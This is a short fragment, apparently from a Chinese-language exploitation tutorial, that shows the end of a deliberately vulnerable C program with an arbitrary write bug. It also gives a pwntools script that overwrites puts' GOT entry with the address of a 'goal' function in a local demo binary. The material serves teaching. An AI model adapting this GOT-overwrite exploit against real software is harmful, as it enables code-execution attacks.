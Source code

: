 ```c
    return 0;
}
```

這是一個有任意寫入的漏洞程式

--

# Payload

```python
from pwn import *
context.arch = "amd64"

elf = ELF('./demo')
array = elf.symbols['array']
got_puts = elf.got['puts']
goal = elf.symbols['goal']

io = process('./demo')
offset = (got_puts - array) / 8
io.sendlineafter('index:', str(offset))
io.sendlineafter('value:', str(goal))
io.interactive()
```

--

# array=elf.symbols['array']

## 0x601080
